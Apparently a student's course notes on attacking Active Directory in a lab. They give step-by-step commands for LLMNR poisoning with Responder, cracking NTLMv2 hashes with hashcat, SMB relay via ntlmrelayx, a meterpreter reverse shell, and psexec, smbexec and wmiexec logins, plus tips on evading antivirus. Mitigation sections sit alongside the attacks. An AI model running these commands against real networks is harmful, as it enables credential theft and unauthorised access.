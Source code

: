 # Attacking AD: Initial Attack Vectors

## LLMNR POISONING
### Link Local Multicast Name Resolution
(like DNS kindof)

From impacket, run **responder**
``` 
python /usr/share/responder/Responder.py -I eth0 -rdwv
```
> v for verbose

To capture the hashes, while running responder, go to the Windows machine and from Quick Access search and type the Linux IP 
e.g. 
`\\10.10.10.7`

That triggers a result on responder, including the `NTLMv2-SSP Hash` (e.g. for fcastle::MARVEL)

Can then provide the hash to **hashcat** to get the password 

> Better to run hashcat on our actual machine instead of the virtual machine, for more computing power

Enter the hashes into a file (one per line)
E.g.
```
gedit ntlmhash.txt
```
Enter:
```
fcastle::MARVEL:....hash...
```

Run 
```
hashcat --help | grep NTLM
	5500 | NetNTLMv1 / NetNTLMv1+ESS	| Network Protocols
	5600 | NetNTLMv2					| Network Protocols
	1000 | NTLM							| Operating System
```

We find out we need to use module 5600 as the hash we captured was NTLMv2
Run hashcat:

```
hashcat -m 5600 ntlmhash.txt /usr/share/wordlists/rockyou.txt --force
```

If we had run hashcat on Windows:
```
cd c:\users\alexia\desktop\hashcat-4.2.1
hashcat64.exe -m 5600 hashes4.txt rockyou.txt -O
```
- `-O` for optimise

Try to also create custom wordlists based on the season, year etc.

## LLMNR Poisoning Mitigation

**LLMNR**: Link-Local Multicast Resolution
is a protocol based on the DNS packet format that allows both IPv4 and IPv6 hosts to perform name resolution for hosts on the same local link

If LLMNR fails, it goes to NBT-NS and vice versa. Hence, need to disable both.
- Disable LLMNR and NBT-NS
	- LLMNR: Local Computer Policy > Computer Configuration > Administrative Templates > Network > Group Policy Editor > DNS client > select "Turn OFF Multicast Name Resolution"
	- NBT-NS: Network Connections > Network Adapter Properties > TCP/IPv4 Properties > Advanced > WINS > "Disable NetBIOS over TCP/IP"

If no option to disable, best alternative mitigating action:
- Require Network Access Control (enable it)
	- i.e. cannot just plug into any port and join the network. Shut port down or don't let anyone who doesn't belong there
- Requirement of strong user passwords (complex and long)


***
## SMB Relay
**SMB** - Server Message Block
is a protocol for sharing files, printers, ports etc. b/w devices

> SMB typically runs on port 445

Instead of cracking hashes gathered by Repsonder, can relay them to specific machines and potentially gain access

Requirements:
- SMB signing must be disabled on the target 
- relayed user credentials must be admin on machine

SMB signing is a packet level protocol. If enabled, it will tell us the packet is not signed by the actual user, i.e. we won't be authenticated and the relay will not succeed

If SMB signing is disabled, it will not check for authentication

From W1, relay on W2
- we capture the credentials and hash from W1
- because frank castle is a local administrator for both machines, we can relay those credentials to W2 and gain access
- W2 must have SMB signing disabled for this attack to succeed

First, need to find out if SMB signing is disabled.
Can do with nessus, or other software or nmap (scan whole network)
```
sudo nmap --script=smb2-security=mode.nse -p445 10.10.10.0/24 
```

We find that the server 10.10.10.6 has `SMB enabled and required` (which is default for DC's / Servers) but both workstations (10.10.10.4 and 10.10.10.5) have `SMB enabled but not required` i.e. we can still attack them

add our targets to a targets.txt file (one IP per line)

Change responder configuration to SMB and HTTP to Off. We want to only listen for now and not respond.
```
gedit /etc/responder/Responder.conf
```

```
sudo /usr/share/responder/Responder.py -I eth0 -rwdv
```

now run
```
sudo ntlmrelayx.py -tf targets.txt -smb2support
```

If we get an error cause a port is being used can check. E.g. with SMB port:
```
sudo lsof -i :445
```

To kill that process:
```
sudo kill -9 <PID>
```

To start an interactive session run:
```
sudo ntlmrelayx.py -tf targets.txt -smb2support -i
```
this will give us access to the SMB process and we can access the SMB shell by listenting on the port that ntlmrelayx directs us to.
```
nc 127.0.0.1 11000
```
From there we get the SMB command shell. 
Type `help` to see the commands. 
Can type `shares` to see the different shares/folders we have access to 
Can use smb commands e.g. `use ADMIN$` or `use C$`
e.g. `use C$` gives us access to the C folder, `ls` to view the contents... etc.
Can also use other options with ntlmrelayx like `-c` to run commands, `-e` to execute something (like a shell) etc.


## SMB Relay Mitigation

### Enable SMB Signing on all devices
- Pro: completely stops the attack
- Con: can cause performance issues with file copies

### Disable NTLM authentication on network
- Pro: completely stops the attack
- Con: If Kerberos stops working, Windows defaults back to NTLM anyway

### Account tiering
e.g. a domain admin is restricted to log into admin accounts, servers, DC's and not user accounts
- Pro: Limits domain admins to specific tasks (e.g. only log onto servers with need for DA)
- Con: Enforcing policy may be difficult

### Local admin restriction
e.g. do not have local admin's
- Pro: can prevent a lot of lateral movement
- Con: potential increase in the amount of service desk tickets
***
## Gaining Shell Access

![initial-av](https://user-images.githubusercontent.com/87711310/209446953-2e16f044-2107-4127-8de6-03e86ce39406.png)

Need to also set the right payload
```
> set payload windows/x64/meterpreter/reverse_tcp
> set lhost eth0
```

ran the same attack for 10.10.10.4 (and zpark, Password2) as we had issues with the fcastle machine

used metasploit but didn't work. Instead used
```
sudo psexec.py marvel.local/zpark:Password2@10.10.10.4
```
got system!

Can also try and run (more obscure, more quiet):
```
sudo smbexec.py marvel.local/zpark:Password2@10.10.10.4
sudo wmiexec.py marvel.local/zpark:Password2@10.10.10.4
```

psexec far noisier than psexec. Try to use others and see what AV is running to then find out how to disable it

Get in quietly first..

